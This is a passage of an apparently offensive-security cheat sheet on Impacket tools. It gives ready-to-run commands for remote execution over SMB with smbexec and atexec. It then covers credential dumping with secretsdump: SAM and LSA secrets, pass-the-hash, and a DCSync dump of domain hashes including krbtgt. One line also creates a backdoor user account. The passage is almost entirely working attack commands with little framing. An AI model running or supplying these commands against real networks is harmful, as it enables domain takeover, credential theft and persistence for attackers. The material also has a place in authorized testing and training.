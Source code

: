 **When:** Need command execution via SMB

```bash
impacket-smbexec 'CORP/administrator:Password123@10.10.10.10'
```

**Differences:**
- Semi-interactive (less smooth than psexec)
- Uses SMB + cmd.exe
- Good fallback option

---

### atexec.py - Single Command

**When:** Just need to run ONE command (fast)

```bash
# Run single command
impacket-atexec 'CORP/administrator:Password123@10.10.10.10' 'whoami'

# Output: Shows command result, no shell

# Use for quick checks:
impacket-atexec 'CORP/admin:pass@10.10.10.10' 'ipconfig'
impacket-atexec 'CORP/admin:pass@10.10.10.10' 'net user hacker Pass123! /add'
```

**Time: 5 seconds per command**

---

## 2. Credential Dumping

### secretsdump.py - The Most Important Tool

**When:** You have admin, need to extract ALL credentials

```bash
# Dump everything (SAM, LSA, cached creds)
impacket-secretsdump 'CORP/administrator:Password123@10.10.10.10'

# With hash (Pass-the-Hash)
impacket-secretsdump -hashes ':HASH' 'administrator@10.10.10.10'

# Dump ONLY domain hashes (DCSync attack)
impacket-secretsdump 'CORP/administrator:Password123@10.10.10.10' -just-dc

# Dump ONLY specific user (faster)
impacket-secretsdump 'CORP/administrator:Password123@10.10.10.10' -just-dc-user krbtgt

# Save output to file
impacket-secretsdump 'CORP/admin:pass@10.10.10.10' -just-dc -outputfile domain-hashes
```

---
